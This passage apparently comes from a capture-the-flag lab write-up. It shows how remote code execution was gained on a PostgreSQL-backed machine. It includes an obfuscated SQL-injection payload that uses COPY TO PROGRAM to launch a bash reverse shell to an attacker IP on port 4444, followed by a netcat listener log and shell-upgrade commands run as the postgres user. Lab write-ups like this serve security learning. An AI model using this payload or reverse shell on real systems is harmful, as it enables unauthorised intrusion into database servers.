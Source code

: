 ![alt text](../assets/images/darkcorp11.png)

and for RCE payload

### First shell

```bash
'';DO $$ DECLARE c text; BEGIN c := CHR(67)||CHR(79)||CHR(80)||CHR(89)||' (SELECT '''') to program ''bash -c "sudo -l; bash -i >& /dev/tcp/10.10.14.11/4444 0>&1"'''; EXECUTE c; END $$;
```

and grab shell

```bash
➜  darkcorp nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.54] 63806
bash: cannot set terminal process group (25302): Inappropriate ioctl for device
bash: no job control in this shell
postgres@drip:/var/lib/postgresql/15/main$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ain$ python3 -c 'import pty;pty.spawn("/bin/bash")'
epostgres@drip:/var/lib/postgresql/15/main$ 

postgres@drip:/var/lib/postgresql/15/main$ export TERM=xterm
export TERM=xterm
postgres@drip:/var/lib/postgresql/15/main$ ^Z
[1]  + 171845 suspended  nc -lnvp 4444
➜  darkcorp sttt -raw echo;fg
zsh: command not found: sttt
[1]  + 171845 continued  nc -lnvp 4444

postgres@drip:/var/lib/postgresql/15/main$ id
id
uid=102(postgres) gid=110(postgres) groups=110(postgres),109(ssl-cert)
```
